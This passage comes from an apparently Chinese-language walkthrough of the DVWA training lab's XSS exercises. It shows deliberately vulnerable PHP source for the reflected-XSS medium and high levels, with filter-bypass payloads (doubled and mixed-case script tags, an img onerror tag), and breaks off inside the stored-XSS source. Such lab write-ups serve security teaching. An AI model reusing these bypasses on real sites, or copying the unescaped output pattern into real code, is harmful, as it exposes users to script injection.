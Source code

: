 
### medium  

```php  
<?php  
  
header ("X-XSS-Protection: 0");  
  
// Is there any input?  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {  
    // Get input  
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );  
  
    // Feedback for end user  
    echo "<pre>Hello ${name}</pre>";  
}  
  
?>  
```

对`<script>`进行了过滤，有三种绕过方式  

1. 使用双写绕过，`<scr<script>ipt>alert(1)</script>`  
2. 使用大小写绕过`sCript>alert(1)</script>`  
3. 使用其他标签。`<img src=1 onerror=alert(1)>`  

### high  

```php  
<?php  
  
header ("X-XSS-Protection: 0");  
  
// Is there any input?  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {  
    // Get input  
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );  
  
    // Feedback for end user  
    echo "<pre>Hello ${name}</pre>";  
}  
  
?>  
```

正则匹配绕过`<script>`，可以用img标签。  

## XSS Stored  

### low  

```php  
<?php  
  
if( isset( $_POST[ 'btnSign' ] ) ) {  
    // Get input  
    $message = trim( $_POST[ 'mtxMessage' ] );  
    $name    = trim( $_POST[ 'txtName' ] );  
  
    // Sanitize message input  
    $message = stripslashes( $message );  
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));  
  
```